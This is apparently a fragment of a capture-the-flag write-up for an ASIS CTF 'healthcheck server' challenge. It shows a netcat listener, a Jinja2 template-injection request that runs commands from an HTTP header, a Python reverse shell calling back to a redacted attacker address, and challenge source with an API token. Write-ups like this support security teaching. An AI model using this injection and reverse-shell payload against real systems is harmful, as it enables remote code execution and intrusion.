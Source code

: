 **HTTP Response:**

```html
HTTP/1.1 200 OK
Server: gunicorn/20.0.4
Date: Wed, 16 Dec 2020 20:09:39 GMT
Connection: close
Content-Type: application/json
Content-Length: 117

{"err":"\n<h2>Error: cannot find **9**</h2>\n<pre>[Errno -2] Name or service not known</pre>","ip":"error","result":[0]}
```

**Getting a Reverse Shell**

```html
attacker$ nc -lvnp 1312

---

GET //ping?address={{config.__class__.__init__.__globals__['os'].popen(request.headers['X-CODE']).read()}} HTTP/1.1
Host: the-healthcheck-server.asisctf.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: */*
X-CODE: python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<REDACTED>",1312));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"])'
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://the-healthcheck-server.asisctf.com/
X-Requested-With: XMLHttpRequest
DNT: 1
Connection: close

```

```python
<imports>

app = Flask(__name__)
api_token = "ewoJInRpZXIiOiAyLAoJImFjY291bnQiOiAiYm05MFgzUm9jbTkzYVc1blgyRjNZWGxmYlhsZmMyaHZkQSIKfQ==:d39131efd320ca3bdd147986f9fe2686bc330d5a0c8765a9b78c25f0fcb8c6df"

'''
ewoJInRpZXIiOiAyLAoJImFjY291bnQiOiAiYm05MFgzUm9jbTkzYVc1blgyRjNZWGxmYlhsZmMyaHZkQSIKfQ==

{
	"tier": 2,
	"account": "bm90X3Rocm93aW5nX2F3YXlfbXlfc2hvdA"
}
'''

# the-real-server
ping_server = "https://the-ping-server.asisctf.com/ping"

<...>
```
